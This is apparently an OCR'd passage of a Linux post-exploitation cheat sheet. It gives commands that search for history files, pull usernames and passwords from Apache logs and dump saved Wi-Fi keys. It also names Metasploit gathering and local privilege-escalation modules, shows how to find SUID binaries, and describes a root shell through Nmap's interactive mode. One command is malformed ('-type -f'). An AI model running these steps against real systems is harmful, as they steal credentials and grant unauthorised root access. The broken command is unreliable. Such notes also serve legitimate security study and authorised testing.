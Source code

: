 ```
find /* -name *.*history* -print 2>/dev/null
```

- Grep the apache access.log file For user and pass strings

```
cat /var/log/apache/access.log | grep -E "^user|^pass"
```

- Dump cleartext Pre-Shared Wireless Keys from Network Manager

```
cat /etc/NetworkManager/system-connections/* | grep -E "^id|^psk"
```

Command Executions Via User-Defined Functions (UDF)
	https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html

### Metasploit - get config files
- Another way to download configuration files from the target system (assuming we have a shell from metasploit session)
   → use post/linux/gather/enum_configs

- Another metasploit module
   → use post/linux/gather/enum_system

> There is a lot more in >  /post/linux/ 

### SUID Binaries
- There are several other well-known SUID root binaries, as they all require some sort of elevated permissions to perform a function, and some of the most common you will find on linux systems are:

```
/bin/su
/bin/mount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
```

### Find SUID Binaries
```
find / -perm -4000 -type -f 2>/dev/null
```

### SUID Nmap --interactive Mode:
- Older versions of Nmap contained an interactive **shell**, which could be launched via the **--interactive** switch
- Once in interactive mode, and assuming the Nmap executable was SUID root, simply running **!sh** in the interactive Nmap console would land the user a root shell.

### glib '$ORIGIN' Expansion Privilege Escalation:
metasploit:
	use exploit/linux/local/glibc_origin_expansion_priv_esc
moreover: http://seclists.org/fulldisclosure/2010/Oct/257
